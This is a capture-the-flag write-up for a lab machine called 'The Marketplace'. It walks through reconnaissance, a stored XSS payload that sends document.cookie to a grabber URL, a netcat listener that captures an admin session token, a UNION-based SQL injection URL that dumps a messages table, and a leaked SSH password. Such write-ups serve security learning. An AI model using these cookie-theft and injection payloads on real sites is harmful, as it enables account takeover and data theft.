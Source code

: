 Difficult: Medium
------------------------------------------
Note: The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. 
He said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?
------------------------------------------

Reconnaissance:
+ Scan NMAP:
```bash
	nmap -sV -vv -A -p- <IP>
	PORT      STATE SERVICE REASON         VERSION
	22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
	 2.0)
	| ssh-hostkey: 
	|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3
	lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLp
	dKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZb
	CYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3L
	RhxbF1
	|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPA
	uPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
	|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
	80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
	| http-methods: 
	|_  Supported Methods: POST OPTIONS
	|_http-title: The Marketplace
	|_http-server-header: nginx/1.19.2
	| http-robots.txt: 1 disallowed entry 
	|_/admin
	32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS
	|_http-title: The Marketplace

```

+ Scan Gobuster:
```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	/admin                (Status: 403) [Size: 392]
	/Admin                (Status: 403) [Size: 392]
	/ADMIN                (Status: 403) [Size: 392]
	/images               (Status: 301) [Size: 179] [--> /images/]
	/login                (Status: 200) [Size: 857]
	/Login                (Status: 200) [Size: 857]
	/messages             (Status: 302) [Size: 28] [--> /login]
	/new                  (Status: 302) [Size: 28] [--> /login]
	/robots.txt           (Status: 200) [Size: 31]
	/robots.txt           (Status: 200) [Size: 31]
	/signup               (Status: 200) [Size: 667]
	/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================

```

+ First, we will sign up to create a new account.
+ Create new USER "username:user1 & password:1"
+ Log in /Login with the credential which is created.

![alt text](image.png)

+ After Login successful, we can look around the web page and we find some new page like /messages and /new.
+ Check each page /new we have the page 'Add new listing' with blank fields 'Title' and 'Description'.
+ In the situation, we can try some tag html like script, h1,...

![alt text](image-2.png)

![alt text](image-1.png)

--> Bingo! The pop up message appear. We found the security vulnerability XSS
(Cross-Site Scripting).

========EXPLOIT XSS=========:

+ Back to the home page we see the page list which we created. Go inside the page /item, we have 2 features: 

![alt text](image-3.png)

+ Feature 1: Contact with the author, we will send message to current user and that is user1.
+ Feature 2: Report to admins and the message report will be sent to admin.

--> We think some ideas that we can inject XSS vuln to retrive some sensitive information about the Admin.

+ View page source:
![alt text](image-4.png)

--> We know that we can exploit XSS base cookie or sensitive access token with "document.cookie" and "document.location"

+ Open "Developer Tools" or use Burpsuite:

![alt text](image-5.png)

--> We recive the token with value encoded. Decode the value we know that is the information user1.

+ We can manipulate cookie token by XSS to grant admin and access /admin.
+ Back to home page and we will exploit code.
+ We use "Data grabber for XSS"
+ Link: "https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss"

+ Now we create the new list and create the payload which will send it to a controlled page:
```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```

![alt text](image-6.png)

+ Use netcat to open the port listen:
```bash
nc -lvkp <port>
# -l: listen mode, for inbound connects
# -v: verbose mode
# -k: set keepalive option on socket
# -p: local port number
# In the situation, we have to use -k to keep the connection when we back to home page. 
```

+ Look at the netcat:

![alt text](image-7.png)

+ We got the recieve about the token cookie that is token user1.
+ Idea in here that is we can manipulate the feature "Report to admin" in the /item to take the token ADMIN.
+ When we report to admin, netcat will capture the request to admin and recive back the token ADMIN.

![alt text](image-8.png)

![alt text](image-9.png)

--> Check netcat again and now we have the token for new user:

![alt text](image-10.png)

+ Decode the token:
```bash
{
    "userId": 2,
    "username": "michael",
    "admin": true,
    "iat": 1728993550
}
```
--> User michael with admin permission.
+ We will insert new token replace the token user1 and access again in the page /admin.

![alt text](image-11.png)

items,messages,users
table users: id, isAdministrator,password,username
table messages: id,is_read,message_content,user_from,user_to

![alt text](image-12.png)

```bash
http://<IP>/admin?user=5%20UNION%20SELECT%20group_concat(id,%20%27:%27%20,%20is_read,%20%27:%27%20,%20message_content,%20%27:%27%20,%20user_from,%20%27:%27%20,%20user_to%20SEPARATOR%20%27%3Cbr%3E%27),2,3,4%20FROM%20messages

```
![alt text](image-13.png)

--> We have the credential SSH jake:@b_ENXkGYUCAv3zJ

